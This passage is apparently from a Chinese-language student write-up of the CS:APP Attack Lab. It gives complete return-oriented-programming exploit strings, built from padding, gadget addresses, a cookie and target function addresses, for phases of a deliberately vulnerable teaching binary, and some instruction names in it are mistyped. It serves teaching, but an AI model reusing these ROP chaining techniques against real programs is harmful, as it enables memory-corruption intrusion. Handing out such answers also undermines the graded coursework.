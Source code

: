    根据farm.s和对应的表(表在[操作流程](http://csapp.cs.cmu.edu/3e/attacklab.pdf))可以得到最终的答案

2. 最终的4.txt为

   ```
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00  //0x28
   AB 19 40 00 00 00 00 00  //popq %rax ret
   FA 97 B9 59 00 00 00 00  //数字
   A2 19 40 00 00 00 00 00  //moveq %rdx，%rdi ret
   EC 17 40 00 00 00 00 00  //返回地址
   ```

### level 2

要求：完成level 3

思路：如上

过程：由于过程过于繁琐我在这里只填答案和一些说明

1. 根据提示我们可以得到一共要用8个工具，因此的到汇编代码

   ```
   movq %rax, %rdi
   leap(%rdi, %rsi, 1), %rax
   movl %ecx,%rsi
   movl %edx,%ecx
   movl %eax,%edx
   0x48
   popq %rax
   movq %rax,%rdi
   movq %rsp,%rax
   ```

2. 对应的5.txt为

   ```
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   06 1a 40 00 00 00 00 00  movq %rsp,%rax
   a2 19 40 00 00 00 00 00  movq %rax,%rdi
   cc 19 40 00 00 00 00 00  popq %rax
   48 00 00 00 00 00 00 00  0x48
   dd 19 40 00 00 00 00 00  movl %eax,%edx
   70 1a 40 00 00 00 00 00  movl %edx,%ecx
   13 1a 40 00 00 00 00 00  movl %ecx,%rsi
   d6 19 40 00 00 00 00 00  leap(%rdi, %rsi, 1), %rax
   a2 19 40 00 00 00 00 00  movq %rax, %rdi
   fa 18 40 00 00 00 00 00  touch3地址
   35 39 62 39 39 37 66 61 00  cookie字符串
   ```

   
